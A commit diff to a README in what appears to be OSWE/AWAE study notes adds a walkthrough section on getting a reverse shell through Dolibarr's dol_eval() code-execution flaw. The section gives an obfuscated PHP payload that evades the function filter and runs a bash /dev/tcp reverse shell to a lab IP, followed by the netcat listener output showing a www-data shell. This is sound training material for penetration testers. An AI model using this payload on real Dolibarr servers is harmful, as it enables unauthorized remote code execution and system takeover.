

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: Dolibarr/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Dolibarr/README.md
+++ b/Dolibarr/README.md
@@ -417,3 +417,24 @@ After adding our new payload, we'll click `Save`. Now we can navigate back to th
 The appearance of **`"www-data"`** in the `"test"` column confirms that our payload was successfully processed by `dol_eval()`, bypassing its security filters. This verifies that the application's **custom attribute functionality is vulnerable** and can be exploited to achieve **remote code execution**.
 
 ### Getting a Reverse Shell
+Now that we have a proof-of-concept payload for remote code execution, let's update it to obtain a reverse shell. We already have a framework for calling operating system commands in our payload. We can modify the value we're passing to `exec()` to generate a reverse shell instead of running `whoami`.
+
+Let's use a bash reverse shell:
+```php
+get_defined_functions()['internal'][array_search(urldecode("%65%78%65%63"), get_defined_functions()['internal'])]("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.203/1337 0>&1'");
+```
+Our next steps are to start a `Netcat` listener to handle our reverse shell, then update the Computed field with our new payload.
+```bash
+┌──(kali㉿kali)-[~]
+└─$ nc -nlvp 1337
+listening on [any] 1337 ...
+connect to [192.168.45.203] from (UNKNOWN) [192.168.232.141] 51812
+bash: cannot set terminal process group (1629): Inappropriate ioctl for device
+bash: no job control in this shell
+www-data@dolibarr:/usr/share/dolibarr/htdocs/user/admin$ id
+id
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+www-data@dolibarr:/usr/share/dolibarr/htdocs/user/admin$
+
+```
+Excellent. Our payload worked and we now have a reverse shell on the Dolibarr VM.
````
